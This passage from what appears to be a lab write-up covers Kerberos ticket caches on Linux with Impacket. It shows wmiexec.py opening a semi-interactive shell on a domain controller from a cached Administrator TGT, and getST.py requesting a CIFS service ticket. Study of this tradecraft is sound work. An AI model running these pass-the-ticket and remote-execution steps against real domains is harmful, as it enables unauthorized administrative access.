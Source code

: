 ```bash
[+] Using Kerberos Cache: /home/eljay/Administrator.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/RUNETERRA.LOCAL@RUNETERRA.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at RUNETERRA.LOCAL:88
[+] Using Kerberos Cache: /home/eljay/Administrator.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/RUNETERRA.LOCAL@RUNETERRA.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at RUNETERRA.LOCAL:88
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>exit
```


This is strange in the context of a normal user doing normal user stuff, as in windows the tickets would be stored within the LUID. So the first time a TGT is requested it will be saved and used to request a TGS which will be also be saved in the LUID. When connecting to the service Windows will provide all the needed TGS tickets (or create new ones by providing the TGT). To mimic this on Linux we have to first request a TGT then request the TGS tickets and save them all to one file. 

# Multiple Tickets In One Ccache File.

You will soon come to realise that this is harder then it seems. If you request a CIFS ticket then pass that it makes it a bit better, but will instead change the SPN of the CIFS ticket to be a HOST ticket and use that in memory. (It will also request it multiple times).
Requesting the CIFS ticket from the TGT, and validating it:


```bash
$ KRB5CCNAME=$(pwd)/Administrator-TGT.ccache getST.py runeterra.local/Administrator -k -no-pass -spn CIFS/dc01
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting ST for user
[*] Saving ticket in Administrator.ccache

$ mv Administrator.ccache Administrator-CIFS.ccache

$ klist -c Administrator-CIFS.ccache 
Ticket cache: FILE:Administrator-CIFS.ccache
Default principal: Administrator@RUNETERRA.LOCAL

Valid starting     Expires            Service principal
18/12/23 03:32:46  18/12/23 13:31:55  CIFS/dc01@RUNETERRA.LOCAL
	renew until 19/12/23 03:31:55
```

Then using this ticket for wmiexec.py:
